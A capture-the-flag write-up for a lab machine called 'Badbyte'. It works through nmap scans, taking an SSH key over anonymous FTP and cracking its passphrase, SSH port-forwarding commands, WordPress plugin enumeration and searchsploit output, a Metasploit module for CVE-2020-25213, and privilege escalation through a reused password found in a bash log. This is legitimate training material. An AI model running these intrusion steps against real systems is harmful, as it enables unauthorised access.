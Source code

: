 ## Badbyte

# Enumeration
```
# Nmap 7.91 scan initiated Sat Mar 13 12:47:29 2021 as: nmap -sC -sV -oN nmap/initial -vvv -p 22,30024 10.10.134.177
Nmap scan report for 10.10.134.177
Host is up, received reset ttl 61 (0.15s latency).
Scanned at 2021-03-13 12:47:29 PST for 7s

PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e3:89:a3:33:67:85:ac:08:a5:0f:1a:d4:79:78:d2:66 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDef3KhPXzvbcTI+hauosPoKNGQUYV4x0oOCV12uMl/asb0noPbvwbJ+63yuk2hh/uF+4CRbXfp3aY5CujLXgn26KLWVx8laL46+aeXvsUP8wyDMR+ExT4AVlWZTbSM6us8BBMQSNsV99ttdrCjQgSIsbP9I5JQfPjOGJ8AL68P6dhM5XjYmz3JrSwB22EHHULA9JB+Kf23GY7/iXSj99vFyYlzQx3of0avHZAfqzqBpUjuWu2UTzEE8oEBxMYilbLPQUkIfMtTbdafQHi1Lf/87cJikGFlFmSRUSOKfIeZd5AMli1+xMxND1Di/XM2CCDnKcUNjeeheQuFFfN6eisf
|   256 c1:93:e9:26:b8:9b:85:bc:c2:8e:08:a2:a4:85:f6:85 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ48Mhbg/Dpagxz4sr7EMKCW/yuMRhT31Je3xAzUHzaIxWJkPrnZI8LmS1ay2m+XfabwpgEqqWCP6mYI7H/UG2Q=
|   256 dd:e1:5c:32:d1:fc:a3:c5:4a:0e:bf:c8:c2:79:e4:71 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIOn/9Bo+nJEIN+3IeO+XZBwU0oPqs9LvCPhCgP1vK6R
30024/tcp open  ftp     syn-ack ttl 61 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          1752 Dec 27 19:55 id_rsa
|_-rw-r--r--    1 ftp      ftp            78 Dec 28 16:50 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.13.1.12
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 13 12:47:36 2021 -- 1 IP address (1 host up) scanned in 7.26 seconds
```

# FTP
FTP is running on port 30024 and we are able to login as anonymous. We login and get the two files on the server. We discover that this is id_rsa private key for the user errorcauser. THe key however needs a passphrawse so we use ssh2john to convert the key and then crack the result with john and the rockyou wordlist. With the passphrase we can get an inital foothold through the ssh as the errorcauser user

#errorcauser port forwarding

We find a note that there is a webserver hosted locally so lets set up port forwarding. We do the following, we have our /etc/proxychains.conf edited to use socks5	127.0.0.1 1337 instead of socks4

Reference https://netsec.ws/?p=278

We do the following first to establish dynamic port forwarding
ssh -i id_rsa -f -N -D 1337 errorcauser@10.10.134.177

We can then scan for what is running locally using the following command
proxychains nmap -sTV -n -PN 127.0.0.1

We find http and mysql running on ports 80,3306 so lets locally forward the remote port 80 through our forwarded port with the following
ssh -i id_rsa -L 8080:127.0.0.1:80 errorcauser@10.10.134.177

Now we can scan for Service info with the following 
```
# nmap -sC -sV -p 8080 127.0.0.1                        
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 14:48 PST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000055s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 4.9.5
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: BadByte &#8211; Just another WordPress site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.74 seconds
```

We then scan for wordpress vulnerabilities with the following
```
# nmap --script=http-wordpress-enum --script-args search-limit=1500 -p 8080 127.0.0.1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 14:34 PST
Stats: 0:04:36 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Stats: 0:04:37 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00016s latency).

PORT     STATE SERVICE
8080/tcp open  http-proxy
| http-wordpress-enum:
| Search limited to top 1500 themes/plugins
|   themes
|     twentyseventeen 1.5
|   plugins
|     akismet
|     duplicator 1.3.26
|_    wp-file-manager 6.0

Nmap done: 1 IP address (1 host up) scanned in 694.53 seconds
```
We then look for vulnerable plugins
```
# searchsploit duplicator 1.3.26
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read (Metasploit | php/webapps/49288.rb
------------------------------------------------------------------------------------- ---------------------------------
```

CVE-2020-11738 shown above has a metasploit module and takes advatange of directory traversal vulnerability


```
# searchsploit wp-filemanager
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin wp-FileManager - 'path' Arbitrary File Download                     | php/webapps/38515.txt
WordPress Plugin wp-FileManager - Arbitrary File Download                            | php/webapps/25440.txt
WordPress Plugin Wp-FileManager 1.2 - Arbitrary File Upload                          | php/webapps/4844.txt
WordPress Plugin Wp-FileManager 6.8 - RCE                                            | php/webapps/49178.bash
------------------------------------------------------------------------------------- ---------------------------------
```
CVE-2020-25213 via WordPress Plugin Wp-FileManager 6.8 - RCE allows for RCE through this vulnerable plugin, and a metasploit module

```
msf6 > search CVE-2020-25213

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  exploit/multi/http/wp_file_manager_rce  2020-09-09       normal  Yes    WordPress File Manager Unauthenticated Remote Code Execution
```
We use the above to get a meterpreter session/shell on the machine as the cth user

# cth privilege escalation
We can find the user flag in /home/cth
we upload linpeas and search for some vulnerabilities

/cdrom
/usr/bin/gettext.sh
```
[+] Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root adm 2675200 Mar 13 23:27 /var/log/apache2/access.log
-rw-r----- 1 root adm 0 Dec 11 16:51 /var/log/apache2/other_vhosts_access.log
-rw-r----- 1 root adm 58396 Mar 13 22:46 /var/log/apache2/error.log
-rw-r----- 1 root adm 106136 Feb  2 20:05 /var/log/apt/term.log
-rw-r----- 1 root adm 132813 Jan 28 11:36 /var/log/apport.log

[+] Searching passwords in config PHP files
define('DB_PASSWORD', '@n0therp@ssw0rd');
define('DB_PASSWORD', '@n0therp@ssw0rd');
                        case 'DB_PASSWORD' :
        define('DB_PASSWORD', $pwd);
define('DB_PASSWORD', 'password_here');
```
We can't seem to find any leads or it was passed over, but eventually we checkout the .viminfo file in /home/cth and see the following
```
# History of marks within files (newest to oldest):

> /var/log/bash.log
        *       1610977988      0
        "       31      0
        .       31      0
        +       37      0
        +       31      0
        +       37      0
        +       31      0
```
Looking through this bash.log file we are able to see some sudo attempts and a mistyped plaintext password. This password doesnt quite work, but is an example of password reuse and we can modify it slightly to get the new password and then simply get root access with sudo su -

